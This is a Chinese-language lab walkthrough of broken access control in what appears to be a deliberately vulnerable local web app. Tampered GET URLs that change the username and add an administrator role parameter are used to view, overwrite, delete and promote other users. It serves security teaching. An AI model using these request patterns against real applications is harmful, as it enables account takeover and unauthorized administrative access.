# 越权漏洞

## 水平越权

`username`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 查看用户信息（GET）

查看用户信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Taylor%20Velez
```



找到一个受害者的username是`Jeffrey Jones`

```
http://127.0.0.1:8000/unauthorized_access/?username=Jeffrey%20Jones
```



### 修改用户信息(GET)

正常修改用户接口操作：

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=normal&phone=normal&address=normal
```



正常用户修改成功信息返回



攻击者发现漏洞，并且**修改密码、手机号、地址。**

```
http://127.0.0.1:8000/unauthorized_access/?username=Aaron%20Andrade&operation=edit&password=hacker&phone=hacker&address=hacker
```



### 删除用户(GET)

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Candice%20Whitaker&operation=del
```






## 垂直越权

`username`和`role`参数没有做校验导致产生平行越权漏洞，可以对正常用户的用户名进行信息收集后，输入正常用户名进行攻击。

### 未授权访问（GET）

漏洞URL接口：

```
http://127.0.0.1:8000/unauthorized_access/
```



### 查看管理员信息（GET）

普通用户访问信息接口

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark
```




添加`role`参数的内容为`管理员`，即可查看到管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&role=%E7%AE%A1%E7%90%86%E5%91%98
```




### 修改管理员信息（GET）

普通用户修改信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Eric%20Stark&operation=edit&password=normal&phone=normal&address=normal&role=%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7
```



攻击者修改管理员信息

```
http://127.0.0.1:8000/unauthorized_access/?username=Linda%20Rios&operation=edit&password=hacker&phone=hacker&address=hacker&role=%E7%AE%A1%E7%90%86%E5%91%98
```



修改成功




### 删除管理员（GET）

漏洞URL：

```
http://127.0.0.1:8000/unauthorized_access/?username=Cassandra%20Wright&operation=del&role=%E7%AE%A1%E7%90%86%E5%91%98
```





### 提升管理员（GET）

Michael James为普通用户权限

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James
```



将他提升为**管理员权限**

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&operation=promotion&role=%E7%AE%A1%E7%90%86%E5%91%98
```



查看是否提升成功。（需要添加role参数才可以查看）

```
http://127.0.0.1:8000/unauthorized_access/?username=Michael%20James&role=%E7%AE%A1%E7%90%86%E5%91%98
```

